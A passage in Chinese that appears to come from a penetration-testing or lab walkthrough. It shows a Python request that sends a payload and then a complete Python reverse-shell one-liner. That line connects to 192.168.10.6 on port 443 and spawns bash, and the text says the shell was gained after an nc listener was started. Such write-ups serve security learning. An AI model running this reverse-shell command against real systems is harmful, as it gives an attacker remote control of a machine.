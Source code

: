 ```python

r = requests.post(url, proxies=proxies, data=payload, verify=verify)
res = r.text

json_text=json.dumps(res,indent=4)
print(json_text)
```

![](./pic-2/17.jpg)

那么构造一个反弹`shell`的命令，执行即可，测试多个命令，最终以`python`的反弹`shell`成功

```shell
export RHOST="192.168.10.6";export RPORT=443;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

![](./pic-2/18.jpg)

可以看到成功获取到`shell`了，当然前面需要进行`nc`监听就没说
